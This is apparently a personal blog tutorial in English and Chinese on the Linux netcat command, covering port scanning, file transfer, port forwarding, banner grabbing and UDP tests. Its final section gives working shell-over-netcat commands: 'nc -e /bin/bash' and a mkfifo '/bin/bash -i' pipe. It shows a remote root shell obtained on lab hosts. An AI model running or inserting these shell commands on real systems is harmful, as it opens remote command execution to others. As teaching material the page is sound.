 ```yaml
---
date: '2025-05-21T18:20:03+08:00'
draft: false
title: 'Master Netcat'
---
```


# Mastering the `nc` (Netcat) Command in Linux

Netcat (`nc`)  allows you to read and write data across network connections using TCP or UDP protocols. 

---

## **Table of Contents**
- [Mastering the `nc` (Netcat) Command in Linux](#mastering-the-nc-netcat-command-in-linux)
  - [**Table of Contents**](#table-of-contents)
  - [**What is Netcat?**](#what-is-netcat)
  - [**Basic Syntax and Options**](#basic-syntax-and-options)
  - [**Common Use Cases**](#common-use-cases)
    - [**1. Port Scanning** 端口扫描](#1-port-scanning-端口扫描)
    - [**2. Creating a Chat Server** 聊天服务器](#2-creating-a-chat-server-聊天服务器)
    - [**3. File Transfer** 传输文件](#3-file-transfer-传输文件)
    - [**4. Port Forwarding** 端口转发](#4-port-forwarding-端口转发)
    - [**5. Banner Grabbing** 服务类型抓取](#5-banner-grabbing-服务类型抓取)
    - [**6. Testing UDP Services** UDP 测试](#6-testing-udp-services-udp-测试)
    - [**7. Reverse Shell (Ethical Hacking)** 反向 shell](#7-reverse-shell-ethical-hacking-反向-shell)
      - [服务端1](#服务端1)
      - [客户端1](#客户端1)
      - [服务端2](#服务端2)
      - [客户端2](#客户端2)
- [References](#references)

---

## **What is Netcat?**
Netcat is a versatile tool for:
- Network debugging
- Port scanning
- File transfers
- Simple proxying
- Banner grabbing
- Reverse shells

It works with both TCP (default) and UDP protocols. Some versions include `ncat` (Nmap Project) or `cryptcat` (with encryption).

---

## **Basic Syntax and Options**
```bash
nc [options] hostname port
```

**Common Options:**
- `-z`: `Zero-I/O` mode, report connection status only,Scan mode (no data exchange). 
- `-v`: `--verbose` output
- `-u`: `--udp` UDP protocol
- `-l`: `--listen` Bind and listen for incoming connections
- `-p`: `--source-port` Specify source port to use
- `-w`: `--wait`,   Connect timeout
- `-k`: `--keep-open`, accept multiple connections in listen mode
- `-n`: `--no-dns`, skip DNS resolution (faster).
- `-e`: `--exec` <command>       Executes the given command

---

## **Common Use Cases**

### **1. Port Scanning** 端口扫描
Check if a port or range of ports is open:
```bash
# Scan a single port
nc -zv github.com 80

Connection to github.com port 80 [tcp/http] succeeded!

# Scan ports 20-100
nc -zv example.com 20-100
```


### **2. Creating a Chat Server** 聊天服务器
Set up a simple chat between two machines:
```bash
# Listener (Server)
nc -lvp 1234

# Client (Connect to Server)
nc 192.168.1.10 1234
```
Type messages on either side and press `Enter`. Exit with `Ctrl+C`.

### **3. File Transfer** 传输文件
Transfer files over a network:
```bash
# Sender (Client)
nc -nv example.com 4444 < file.txt

# Receiver (Server)
nc -lvnp 4444 > received.txt
```
**Directory Example:**
```bash
# Compress and send
tar -czf - /path/to/dir | nc -lvp 5555

# Receive and extract
nc 192.168.1.10 5555 | tar -xzf -
```

### **4. Port Forwarding** 端口转发

**Forward traffic from local port 8080 to a remote server:**
```bash
# Local Forwarder
nc -lvp 8080 | nc remotehost 80
```

**例子**


```bash
[root@node96 ~]# nc -lvp  9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.200.97.
Ncat: Connection from 10.10.200.97:50360.
aaaaaaa

```

```bash
[root@node97 ~]# nc -lvp 8888 | nc 10.10.200.96 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.200.97.
Ncat: Connection from 10.10.200.97:34254.
```

```bash
[root@node97 ~]# nc 10.10.200.97 8888
aaaaaaa

```



**Bidirectional Forwarding (Advanced):**
```bash
mkfifo pipe
nc -lvp 8080 < pipe | nc remotehost 80 > pipe
```

### **5. Banner Grabbing** 服务类型抓取
Retrieve service banners for reconnaissance:
```bash
[root@node96 ~]# nc -v 10.10.200.96 22
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.200.96:22.
SSH-2.0-OpenSSH_7.4


```

### **6. Testing UDP Services** UDP 测试
Test UDP-based services (e.g., DNS):
```bash
[root@node96 ~]# nc -uvz 1.1.1.1 53
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 1.1.1.1:53.
Ncat: UDP packet sent successfully
Ncat: 1 bytes sent, 0 bytes received in 2.02 seconds.
```
**Note:** UDP is connectionless, so responses may vary.

### **7. Reverse Shell (Ethical Hacking)** 反向 shell

#### 服务端1

```bash
[root@node96 ~]#  nc -l -vv -p 5879 -e /bin/bash
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::5879
Ncat: Listening on 0.0.0.0:5879
```

#### 客户端1

```bash
[root@node97 ~]# nc -v 10.10.200.96 5879
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.200.96:5879.
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:17:86:e5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.200.96/16 brd 10.10.255.255 scope global noprefixroute ens33
       valid_lft forever preferred_lft forever
    inet 10.10.123.234/16 scope global secondary ens33
       valid_lft forever preferred_lft forever
    inet6 fe80::c51e:7f4e:355f:57d2/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

#### 服务端2

```bash
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc -l  8888 > /tmp/f
```

#### 客户端2

> 出现了服务端的命令行操作端, 相当危险的

```bash
[root@node97 ~]# nc -v 10.10.200.96 8888
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.200.96:8888.
[root@node96 ~]# hostname
hostname
node96
```

# References

1. [这些Linux命令，不会有人教你！](https://juejin.cn/post/7124849362563727367?searchId=202505221112142E0D23DF253184B6167E#heading-6)
2. [ncat](https://man7.org/linux/man-pages/man1/ncat.1.html)

